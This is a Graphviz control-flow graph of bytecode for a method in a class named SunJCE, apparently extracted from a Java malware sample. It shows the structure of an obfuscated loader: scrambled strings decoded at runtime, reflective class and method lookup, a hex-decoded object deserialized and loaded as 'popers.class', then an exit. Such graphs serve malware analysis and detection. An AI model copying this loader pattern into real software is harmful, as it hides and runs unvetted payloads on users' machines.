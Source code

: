 digraph "" {
    "r0 := @this: SunJCE"
    "push \"juIu.L\""
    "r0 := @this: SunJCE"->"push \"juIu.L\"";
    "push \"Wyf.+\""
    "push \"juIu.L\""->"push \"Wyf.+\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"Wyf.+\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"hd+Ltt\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"hd+Ltt\"";
    "push \"hd+Ltt\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"ZdW.\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"ZdW.\"";
    "push \"ZdW.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"uWhYy\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"uWhYy\"";
    "push \"uWhYy\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"+.-Wh\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"+.-Wh\"";
    "push \"+.-Wh\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Yy+K\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Yy+K\"";
    "push \"Yy+K\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"ZsZtZ\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"ZsZtZ\"";
    "push \"ZsZtZ\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"d+Z-tt\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"d+Z-tt\"";
    "push \"d+Z-tt\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"u)\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"u)\"";
    "push \"u)\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "push \"9ZW\""
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"push \"9ZW\"";
    "push \"9ZW\""->"staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>";
    "push 2"
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"->"push 2";
    "newarray"
    "push 2"->"newarray";
    "store.r r14"
    "newarray"->"store.r r14";
    "load.r r14"
    "store.r r14"->"load.r r14";
    "push 0"
    "load.r r14"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "arraywrite.r"
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "push 1"
    "load.r r14"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "load.r r14"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "store.r r10"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"store.r r10";
    "new java.io.ByteArrayInputStream"
    "store.r r10"->"new java.io.ByteArrayInputStream";
    "store.r $r39"
    "new java.io.ByteArrayInputStream"->"store.r $r39";
    "load.r $r39"
    "store.r $r39"->"load.r $r39";
    "staticinvoke <getString: java.lang.String getSunJCE()>"
    "load.r $r39"->"staticinvoke <getString: java.lang.String getSunJCE()>";
    "staticinvoke <getString: java.lang.String getSunJCE()>"->"staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>";
    "push \"juIu.ukkfZW.-kkfZW\""
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"->"push \"juIu.ukkfZW.-kkfZW\"";
    "push \"juIu.ukkfZW.-kkfZW\""->"staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>";
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "push \"OZWFhUZru9Z\""
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"push \"OZWFhUZru9Z\"";
    "push \"OZWFhUZru9Z\""->"staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>";
    "staticinvoke <BurkinoGoso: java.lang.String gouerpyftn(java.lang.String)>"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "load.r r0"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "newarray"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"virtualinvoke <java.lang.Object: java.lang.String toString()>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"->"store.r r14";
    "staticinvoke <codehex: byte[] decodeH(java.lang.String)>"
    "store.r r14"->"staticinvoke <codehex: byte[] decodeH(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <codehex: byte[] decodeH(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r $r39";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r $r39"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r39";
    "store.r $r39"->"load.r $r39";
    "load.r $r39"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r39";
    "load.r $r39"->"push 1";
    "push \"popers.class\""
    "push 1"->"push \"popers.class\"";
    "push \"popers.class\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r39";
    "load.r $r39"->"push 2";
    "push 2"->"push 0";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 0"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "store.r r0"
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r39";
    "push 3"
    "load.r $r39"->"push 3";
    "push 3"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r39";
    "push 4"
    "load.r $r39"->"push 4";
    "push 4"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "goto goto load.r r10"
    "arraywrite.r"->"goto goto load.r r10";
    "goto load.r r10"
    "goto goto load.r r10"->"goto load.r r10";
    "load.r r10"
    "goto load.r r10"->"load.r r10";
    "load.r r10"->"load.r $r39";
    "load.r $r39"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"load.r $r39";
    "load.r $r39"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"load.r $r39";
    "load.r $r39"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "pop"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"pop";
    "pop"->"load.r $r39";
    "load.r $r39"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"load.r r14";
    "staticinvoke <popers: void classfile(popers,java.lang.String)>"
    "load.r r14"->"staticinvoke <popers: void classfile(popers,java.lang.String)>";
    "goto return"
    "staticinvoke <popers: void classfile(popers,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <popers: void classfile(popers,java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
}
